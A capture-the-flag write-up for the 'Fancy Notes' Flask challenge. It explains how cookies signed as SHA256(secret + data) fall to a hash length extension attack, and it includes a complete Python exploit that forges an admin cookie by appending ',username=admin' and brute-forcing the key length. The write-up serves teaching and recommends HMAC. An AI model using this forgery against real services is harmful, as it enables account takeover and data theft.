



# Fancy Notes

Categories: Web, Crypto, Warmup

Description:
> Hello my friend, I need your help!
> As you know, in Italy food is very important and I'm not good at it... but I want to surprise my parents with a special recipe.
> I asked Marco Giordano for an advice, he is very good, but he didn't want to reveal his secrets...
> I know he saves his recipes on [Fancy Notes](https://fancynotes.m0lecon.fans/), find a way to steal them.
> 
> Author: @RxThorn
> 
> [Source code](https://ctf.m0lecon.it/attachments/391035157d504163961bb2d526b36eb6/fancynotes.zip)

**Tags:** Hash Length Extension SHA, Cookies, Authentication, Flask

## Takeaways

* Hash Length extension attack
* Logging with flask:
    ```python
    # In __init__.py where the app is created:
    app.logger.setLevel(logging.DEBUG)

    # In any other python file (e.g. routes.py):
    from flask import current_app as app

    app.logger.debug('Foobar')
    ```
 * Don't implement the crypto yourself. If you want to sign data, then use an HMAC instead of the scheme used in this challenge!

## Solution

Upon vising the website we are presented with the following page.


It is a simple web app where you register, and then you login, and you can make notes.

             |  
:-------------------------:|:-------------------------:

So, let's check the source code to see how we can get the flag.

```python
def init_db(db):
    username = "admin"
    password = random_string(20)

    if User.query.filter_by(username=username).count() > 0:
        return

    user = User(username=username, password=hashlib.sha256(
        password.encode()).hexdigest(), locale='en'
    )
    note = Note(title="flag", body=os.environ.get("FLAG"))
    user.notes.append(note)
    db.session.add(user)
    db.session.commit()
```

So, as we can see, we have to login as `admin` in order to access their notes and get the flag.

The bug lies in the user authentication. When a request arrives, we first check if the user has authenticated

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")
def get_user():
    if not 'user' in request.cookies:
        return None
    # ... reconstruct user from cookie #
    return user
```

So, let's check how the `user` cookie is created

```python
@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        response = make_response(redirect("/notes"))
        response.set_cookie('user', generate_cookie(user))
        return response

def generate_cookie(user):
    SECRET_KEY = os.environ.get("SECRET_KEY")
    user_string = deserialize_user(user)
    signature_string = hashlib.sha256(
        (SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest()
    cookie = base64.b64encode(
        (f'{user_string}|{signature_string}').encode('raw_unicode_escape')).decode()
    return cookie

def deserialize_user(user):
    values = []
    for k in ["username", "locale"]:
        values.append(f'{k}={user.__dict__[k]}')
    return ','.join(values)
```

So, as an example:



`user=dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ==`

And the value base64-decodes to:

`username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a`

So, `user_string="username=fane,locale=en"` and `signature_string` is the hash of a secret key concatenated with the `user_string`.

Now, let's check how the server reconstructs the user information from the cookie:

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")

def get_user():
    if not 'user' in request.cookies:
        return None

    SECRET_KEY = os.environ.get("SECRET_KEY")
    cookie = base64.b64decode(request.cookies.get('user')).decode('raw_unicode_escape')
    assert len(cookie.split('|')) == 2
    user_string = cookie.split('|')[0]
    signature_string = cookie.split('|')[1]

    if hashlib.sha256((SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest() != signature_string:
        print("nope")
        return None

    user = serialize_user(user_string)
    return user
```

The server re-computes the hash from the `user_string` sent and its secret, and compares it with the provided hash to determine the integrity of the cookie.

SHA256 is vulnerable to Hash length extension attacks: Given `H(msg1)` and the length of `msg1`, we can compute `H(msg1 || msg2)` with an attacker controlled `msg2`. So, we partially know `msg1` and we can append stuff to the `user_string`, so we also control `msg2`. But, how about the length of `msg1`? We do not know the length of the `SECRET_KEY`. We can brute-force it as it shouldn't be reasonably anything longer than 256 characters (and that is an overapproximation!).

So, we can affect `user_string` and generate spoofed signatures. But how can we abuse this? Let's take a closer look at how the `user` object is generated from the serialized data

```python
def serialize_user(user_string):
    user = dict()
    for kv in user_string.split(','):
        k = kv.split('=')[0]
        v = kv.split('=')[1]
        user[k] = v
    return user
```

Remember the example `user_string="username=fane,locale=en"`. The `serialize_user()` function will iterate over the key-value pairs in the string and set them. We can add another `,username=admin` key-pair to overwrite the previous value and set our username to admin. This will escalate our privileges to the `admin` user.

So, let's write our exploit:

```python
# cookie `user` value 
# username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a
cookie = "dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ=="
cookie = base64.b64decode(cookie).decode('ascii')

user_string, signature_str = cookie.split('|')
Hmessage1 = signature_str
message1_length = 1

message2 = ',username=admin'
while message1_length < 256:
    new_signature, new_msg = hashpumpy.hashpump(signature_str, user_string, message2, message1_length)

    new_cookie = new_msg + b'|' + bytes(new_signature, encoding='utf-8')
    new_cookie = base64.b64encode(new_cookie).decode('ascii')

    s = requests.Session()
    cookie_obj = requests.cookies.create_cookie(
        name="user", value=new_cookie
    )
    s.cookies.set_cookie(cookie_obj)

    r = s.get('http://127.0.0.1:5000/notes', verify=False, allow_redirects=False)
    print(r.text)
    if 'admin' in r.text:
        flag = re.search(r'ptm{.+}', r.text).group(0)
        break

    message1_length += 1

print("Logged in!")
print("Message1 length: " + str(message1_length))
print("user=" + new_cookie)
print("Flag: " + flag)
```

And we get the flag

`ptm{pleaseD0NOTUseCr3am1nCarbon4r4!}`
